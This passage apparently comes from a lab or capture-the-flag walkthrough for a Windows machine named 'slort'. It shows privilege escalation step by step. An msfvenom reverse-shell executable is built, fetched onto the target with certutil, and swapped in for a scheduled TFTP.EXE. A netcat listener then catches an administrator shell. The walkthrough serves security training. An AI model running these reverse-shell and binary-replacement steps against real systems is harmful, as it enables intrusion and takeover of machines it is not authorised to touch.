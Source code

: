 ```bash
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.68 LPORT=3306 -f exe > evil.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
In our user shell, we’ll leverage our still-running python web server to download our payload to the target.

C:\Backup>certutil.exe -urlcache -split -f "http://192.168.49.68/evil.exe" "C:\Backup\evil.exe"
certutil.exe -urlcache -split -f "http://192.168.49.68/evil.exe" "C:\Backup\evil.exe"
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.
Let’s back up the original TFTP.EXE file…

C:\Backup>move TFTP.EXE TFTP.EXE_BKP
move TFTP.EXE TFTP.EXE_BKP
        1 file(s) moved.
…and replace TFTP.EXE with our payload.

C:\Backup>move evil.exe TFTP.EXE
move evil.exe TFTP.EXE
        1 file(s) moved.
Finally, we’ll start a netcat listener on port 3306 and wait up to 5 minutes for activity.

┌──(kali㉿kali)-[~]
└─$ sudo nc -lvvvp 3306                                                              
listening on [any] 3306 ...
192.168.68.53: inverse host lookup failed: Host name lookup failure
connect to [192.168.49.68] from (UNKNOWN) [192.168.68.53] 49729
Microsoft Windows [Version 10.0.18363.900]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
slort\administrator
After some time, we receive a shell in our listener and discover that our assumption was true: the file was executed as Administrator. We have an admin shell!
```
